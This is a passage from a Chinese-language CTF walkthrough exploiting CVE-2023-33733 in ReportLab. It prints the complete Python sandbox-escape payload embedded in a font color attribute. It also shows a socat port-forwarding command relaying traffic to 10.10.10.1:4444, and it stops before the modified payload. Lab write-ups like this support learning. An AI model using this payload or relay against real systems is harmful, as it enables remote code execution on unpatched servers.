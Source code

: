 发包后可以看到一个网站：**http://www.reportlab.com**

![](./images/image-126.png)

## CVE-2023-33733

搜索查找到一个**CVE**漏洞

- [c53elyas/CVE-2023-33733: CVE-2023-33733 reportlab RCE](https://github.com/c53elyas/CVE-2023-33733)

得到攻击载荷

```
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

需要使用**socat**进行流量转发一下，我是直接把**kali**里面的**socat**传上去的

```
drzunder@e825ec493085:/tmp$ ./socat tcp-l:4444,fork,reuseaddr tcp:10.10.10.1:4444
```

攻击载荷应该修改为这样

